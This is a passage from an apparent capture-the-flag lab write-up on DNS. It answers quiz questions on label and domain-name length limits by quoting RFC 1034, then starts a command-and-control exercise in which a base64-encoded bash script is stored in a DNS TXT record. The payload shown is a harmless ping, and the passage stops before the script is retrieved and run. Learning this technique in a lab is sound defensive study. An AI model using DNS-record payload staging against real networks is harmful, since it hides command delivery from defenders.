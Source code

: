 ```text
names, no significance is attached to the case.  That is, two names with
the same spelling but different case are to be treated as if identical.

The labels must follow the rules for ARPANET host names.  They must
start with a letter, end with a letter or digit, and have as interior
characters only letters, digits, and hyphen.  There are also some
restrictions on the length.  Labels must be 63 characters or less.
```
{: .nolineno }

Answer : 63

### The Fully Qualified FQDN domain name must not exceed ______ characters.

For those who don't now this, you can check the DOMAIN NAMES RFC <https://www.ietf.org/rfc/rfc1034.txt>, and the max length of domains names is 255 :

```text
To simplify implementations, the total number of octets that represent a
domain name (i.e., the sum of all label octets and label lengths) is
limited to 255.

A domain is identified by a domain name, and consists of that part of
the domain name space that is at or below the domain name which
specifies the domain.  A domain is a subdomain of another domain if it
is contained within that domain.  This relationship can be tested by
seeing if the subdomain's name ends with the containing domain's name.
For example, A.B.C.D is a subdomain of B.C.D, C.D, D, and " ".
```
{: .nolineno }

Answer : 255

### Execute the C2 communication over the DNS protocol of the flag.tunnel.com. What is the flag?

Let's save a script and encoded it in base64 :

```console
thm@victim2:~$ cat /tmp/script.sh 
#!/bin/bash 
ping -c 1 test.thm.com
thm@victim2:~$ cat /tmp/script.sh | base64
IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K
```
{: .nolineno }

We can now add a dns record to the DNS with the encoded content :

```text
script.tunnel.com. IN TXT "IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K"
```
{: .nolineno }
